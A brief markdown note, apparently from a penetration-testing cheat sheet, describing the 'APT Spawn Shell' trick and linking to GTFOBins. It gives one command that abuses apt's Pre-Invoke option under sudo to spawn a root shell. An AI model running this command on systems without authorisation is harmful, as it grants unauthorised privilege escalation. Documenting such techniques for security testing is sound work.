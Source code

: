 # APT Spawn Shell
When the shell exits the `update` command is actually executed. [APT Spawn Shell](https://gtfobins.github.io/gtfobins/apt/). 


# Attack Set-up

### Command
```bash
   sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```

